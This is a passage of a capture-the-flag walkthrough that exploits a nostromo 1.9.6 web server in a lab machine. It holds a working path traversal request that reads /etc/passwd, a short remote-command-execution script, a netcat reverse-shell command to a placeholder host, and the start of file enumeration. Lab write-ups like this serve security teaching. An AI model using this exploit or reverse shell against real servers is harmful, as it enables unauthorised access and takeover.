 This exploit relies on a path traversal protection bypass, which can be used
to request arbitrary files of the server.
<pre>
debian $ printf "GET /.%%0d./.%%0d./.%%0d./.%%0d./etc/passwd HTTP/1.0\r\n\r\n" | nc 10.10.10.165 80
HTTP/1.1 200 OK
Date: Thu, 16 Apr 2020 02:05:27 GMT
Server: nostromo 1.9.6
Connection: close
Last-Modified: Fri, 25 Oct 2019 18:34:30 GMT
Content-Length: 1395
Content-Type: text/html<br>
root:x:0:0:root:/root:/bin/bash
...
david:x:1000:1000:david,,,:/home/david:/bin/bash
...
</pre>

Unfortunetly for the users of nostromo, and fortunetly for us this gets much
worse when we `POST` instead of `GET`-ing. We can post commands to `/bin/sh`
and instead of giving us the binary contents, the server executes it with
**our** input, thus we gain remote command execution with the same permission
as nostromo itself has.

The following shell script implements this.
<pre>
\#!/bin/sh
\# Usage: rce.sh ip command
printf "POST /.%%0d./.%%0d./.%%0d./.%%0d./bin/sh HTTP/1.0\r\nContent-Length: 1\r\n\r\necho\necho\n$2 2>&1\n" | nc $1 80
</pre>

This might look very dense, but all we are doing is generating an HTTP request
using printf into netcat with the body of the request being the command we
intend to execute. The two `echo` commands are necessary for nostromo to
return the output instead of failing with a `500 Internal Server Error`.

Using our RCE script we get a reverse shell with nostromo's persmissions.
<pre>
First shell on hacker computer:
debian $ nc -lvp 9999
www-data@traverxec $ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
www-data@traverxec $ hostname
traverxec<br>
Second shell on hacker computer:
debian $ ./rce.sh 10.10.10.165 "nc hacker_ip 9999 -e /bin/sh"
</pre>

## Step 3: Owning david
Using the reverse shell from the last step I enumerate what can I access as
`www-data`.

Let's see what files can I access. Only interesting/unusual files are shown
here, otherwise it would fill the page.
<pre>
www-data@traverxec $ find / -type f -readable
...
/var/nostromo/logs/nhttpd.pid
/var/nostromo/conf/mimes
/var/nostromo/conf/.htpasswd
/var/nostromo/conf/nhttpd.conf
/var/nostromo/icons/dir.gif
/var/nostromo/icons/file.gif
/var/nostromo/htdocs/js/main.js
/var/nostromo/htdocs/css/style.css